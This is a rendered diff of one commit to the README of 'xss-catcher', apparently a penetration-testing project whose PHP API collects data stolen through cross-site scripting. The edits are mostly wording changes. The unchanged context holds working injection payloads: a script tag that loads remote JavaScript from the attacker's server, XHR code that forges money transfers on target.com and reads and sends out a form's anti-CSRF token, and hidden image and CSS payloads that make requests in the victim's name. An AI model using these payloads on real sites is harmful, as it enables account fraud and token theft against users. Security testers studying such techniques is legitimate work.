

Before and after one commit to ivan-sincek/xss-catcher, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 87% size. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -1,12 +1,12 @@
 # XSS Catcher
 
-PHP API for storing all incoming XSS requests and various XSS templates.
+PHP API for storing all incoming XSS requests. Also including various XSS templates.
 
-Incoming XSS request can have `data` (i.e. stolen data), `site`, `redirect`, and `info` HTTP request parameters.
+Incoming XSS request can have `data` (i.e., stolen data), `site`, `redirect`, and `info` HTTP request parameters.
 
-Use `redirect` with `<script src="https://myserver.com?redirect=xss.js"></script>` to both, store an XSS request and execute JavaScript code. Redirect file e.g. `xss.js` will resolve to the relative path on your web server, i.e. `./xss.js`.
+Use `<script src="https://myserver.com?redirect=xss.js"></script>` payload to both, store the incoming XSS request and execute additional JavaScript code specified in `xss.js` - where `xss.js` is equal to the relative path `./xss.js`.
 
-Play with the given examples and make your own (possibly shorter).
+Play with the given payloads and create your own, possibly shorter.
 
 Tested on XAMPP for Windows v7.4.3 (64-bit) with Chrome v92.0.4515.131 (64-bit) and Firefox v90.0.2 (64-bit).
 
@@ -165,7 +167,7 @@ Plant a forged request by injecting the following JavaScript code:
 <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000');</script>
 ```
 
-Example above will send an HTTP POST request to a target server in the victim's name with user-defined parameters as a form-data.
+Payload above will send an HTTP POST request to a target server in the victim's name with user-defined parameters as a form-data.
 
 ---
 
@@ -177,9 +179,9 @@ Plant a forged request whilst stealing a web form token by injecting the followi
 <script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://target.com/transfer.php?recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value), true); xhr.send(); }</script>
 ```
 
-First example above will send an HTTP POST request to a target server in the victim's name with user-defined parameters as a form-data.
+First payload above will send an HTTP POST request to a target server in the victim's name with user-defined parameters as a form-data.
 
-Second example above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e. in a URL).
+Second payload above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e., in a URL).
 
 **To steal a web form token or any other web form data, you must wait for the web form to fully render/load. You can do that by calling the `window.onload` event.**
 
@@ -193,7 +195,7 @@ Plant a forged request by injecting the following HTML code:
 <img src="https://github.com/favicon.ico" alt="csrf" style="background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000');" hidden="hidden">
 ```
 
-Both examples above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e. in a URL).
+Both payloads above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e., in a URL).
 
 ---
 
@@ -203,11 +205,11 @@ Plant a forged request by injecting the following CSS code:
 <style>div { background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000'); }</style>
 ```
 
-Example above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e. in a URL).
+Payload above will send an HTTP GET request to a target server in the victim's name with user-defined parameters in a query string (i.e., in a URL).
 
 ### CSRF Templates
 
-Copy all the content from [\\templates\\](https://github.com/ivan-sincek/xss-catcher/tree/master/templates) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP).
+Copy all the content from [\\templates\\](https://github.com/ivan-sincek/xss-catcher/tree/master/templates) to your server's web root directory (e.g., to \\xampp\\htdocs\\ on XAMPP).
 
 You can also use this simple Python3 one-liner to start a local web server from a specified directory:
 
````
Also changed, not shown: other parts of README.md (+17 -15 lines).
